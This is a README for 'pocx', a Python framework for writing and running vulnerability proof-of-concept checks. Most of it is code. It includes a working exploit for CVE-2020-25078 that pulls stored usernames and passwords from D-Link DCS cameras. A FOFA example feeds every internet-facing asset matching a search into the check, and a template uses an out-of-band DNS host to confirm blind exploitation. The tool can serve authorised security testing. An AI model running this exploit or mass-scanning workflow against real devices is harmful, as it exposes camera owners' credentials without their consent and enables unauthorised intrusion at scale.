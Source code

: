 # pocx
A Simple, Fast and Powerful poc engine tools was built by antx, which support synchronous mode and asynchronous mode.

## Description
pocx is a simple, fast and powerful poc engine tools, which support synchronous mode and asynchronous mode. pocx also 
support some useful features, which like fofa search and parse assets to verify. You also can use smart method to verify 
some special assets by using ceyeio, which it is cannot return or display the result. 

## Install

```bash
pip3 install pocx
```

## Usage

### POC Template

```python
# Title: xxxxxxx
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-xxxx-xxxxx

from pocx import BasicPoc, AioPoc


class POC(BasicPoc):
    def __init__(self):
        self.name = 'poc'
        super(POC, self).__init__()

    def poc(self, target):
        """
        
        your poc code here.
        
        """


if __name__ == '__main__':
    target = 'http://127.0.0.1'
    cve = POC()
    cve.run(target)
```

### Synchronous Mode Example

```python
# Title: D-Link DCS系列监控 账号密码信息泄露 CVE-2020-25078
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-2020-25078

from pocx import BasicPoc
from loguru import logger


class DLinkPoc(BasicPoc):
    @logger.catch(level='ERROR')
    def __init__(self):
        self.name = 'D_Link-DCS-2530L'
        super(DLinkPoc, self).__init__()

    @logger.catch(level='ERROR')
    def poc(self, target: str):
        poc_url = '/config/getuser?index=0'
        try:
            resp = self.get(target + poc_url)
            if resp.status_code == 200 and 'name' in resp.text and 'pass' in resp.text:
                logger.success(resp.text)
            elif resp.status_code == 500:
                logger.error(f'[-] {target} {resp.status_code}')
        except Exception as e:
            logger.error(f'[-] {target} {e}')


if __name__ == '__main__':
    target = 'http://127.0.0.1'
    cve = DLinkPoc()
    cve.run(target)
```

### Asynchronous Mode Example

```python
# Title: D-Link DCS系列监控 账号密码信息泄露 CVE-2020-25078
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-2020-25078

from pocx import AioPoc
from loguru import logger


class DLinkPoc(AioPoc):
    @logger.catch(level='ERROR')
    def __init__(self):
        self.name = 'D_Link-DCS-2530L'
        super(DLinkPoc, self).__init__()

    @logger.catch(level='ERROR')
    async def poc(self, target: str):
        poc_url = '/config/getuser?index=0'
        try:
            resp = await self.aio_get(target + poc_url)
            if resp.status_code == 200 and 'name' in resp.text and 'pass' in resp.text:
                logger.success(resp.text)
            elif resp.status_code == 500:
                logger.error(f'[-] {target} {resp.status_code}')
        except Exception as e:
            logger.error(f'[-] {target} {e}')


if __name__ == '__main__':
    target = 'http://127.0.0.1'
    cve = DLinkPoc()
    cve.run(target)
```

### Useful Functions

#### FoFa

```python
# Title: xxxxxxx
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-xxxx-xxxxx

from pocx import BasicPoc, AioPoc
from pocx.funcs import Fofa


class POC(BasicPoc):
    def __init__(self):
        self.name = 'poc'
        super(POC, self).__init__()

    def poc(self, target):
        """
        
        your poc code here.
        
        """


if __name__ == '__main__':
    grammar = 'app="xxxxxx"'
    cve = POC()
    fofa = Fofa()
    fofa.set_config(api_key='xxxxxx', api_email='xxxxxx')
    print(f'[+] the asset account of grammar: {grammar} are: {fofa.asset_counts(grammar)}')
    pages = fofa.asset_pages(grammar)
    for page in range(1, pages + 1):
        print(f'[*] page {page}')
        assets = fofa.assets(grammar, page)
        cve.run(assets)
```

#### Ceye

```python
# Title: xxxxxxx
# Author: antx
# Email: wkaifeng2007@163.com
# CVE: CVE-xxxx-xxxxx

from pocx import BasicPoc, AioPoc
from pocx.funcs import Ceye


class POC(BasicPoc):
    def __init__(self):
        self.name = 'poc'
        super(POC, self).__init__()
        self.ceyeio = Ceye()
        
    def poc(self, target):
        pid = self.ceyeio.generate_payload_id()
        self.ceyeio.set_config(api_token='xxxxxx', identifier='xxxxxx.ceye.io')
    
        """
        
        your poc code here.
        
        """
        
        self.ceyeio.verify(pid, 'dns')


if __name__ == '__main__':
    target = 'http://127.0.0.1:8888'
    cve = POC()
    cve.run(target)
```
